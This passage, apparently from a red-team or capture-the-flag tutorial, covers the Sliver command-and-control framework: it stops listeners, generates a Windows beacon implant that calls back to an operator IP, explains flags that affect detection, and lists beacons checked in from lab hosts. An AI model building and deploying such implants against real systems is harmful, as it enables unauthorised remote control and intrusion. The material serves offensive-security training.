 To kill a listener, we use the command `jobs -k <listener_id>` and provide the listener ID we want to stop:
```bash
sliver > jobs -k 3

[*] Killing job #3 ...
[!] Job #3 stopped (tcp/http)

[!] Job #3 stopped (tcp/http)

[*] Successfully killed job #3
```
```bash
sliver > jobs -k 4

[*] Killing job #4 ...
[!] Job #4 stopped (tcp/https)

[*] Successfully killed job #4

[!] Job #4 stopped (tcp/https)
```
```bash
sliver > jobs

 ID   Name   Protocol   Port    Stage Profile
==== ====== ========== ======= ===============
 1    grpc   tcp        31337
 2    mtls   tcp        53
```
# Beacons
## Generating beacons
To generate a beacon, we can use the `generate beacon` command, in this case we generate a beacon for windows 64 bit, the format is .exe and we tell it to connect to our IP:
```bash
sliver > generate beacon --seconds 30 --jitter 3 --os windows --arch amd64 --format EXECUTABLE --http <IP> --name meow --save /tmp/beacon.exe -G --skip-symbols

[*] Generating new windows/amd64 beacon implant binary (30s)
[!] Symbol obfuscation is disabled
[*] Build completed in 3s
[*] Implant saved to /tmp/beacon.exe
```
The `-G` skips `Shikata-Ganai-Encoding` and `--skip-symbols` will leave sliver strings inside the binary. This reduces file size but can lead to detection.
## Listing and interacting with beacons
To list all the beacons we have, we can use the `beacons` command:
```bash
sliver > beacons

 ID         Name           Transport   Hostname    Username               Operating System   Last Check-In   Next Check-In
========== ============== =========== =========== ====================== ================== =============== ===============
 a7b8c0ca   mist-http      http(s)     MS01        MIST\Brandon.Keywarp   windows/amd64      257h38m33s      257h38m2s
 7717ce78   axlle          http(s)     MAINFRAME   AXLLE\gideon.hamill    windows/amd64      180h58m49s      180h58m18s
 [SNIP]
 ede730e4   meow   http(s)     DC1         BLAZORIZED\NU_1055     windows/amd64      11h50m21s       11h49m50s
```
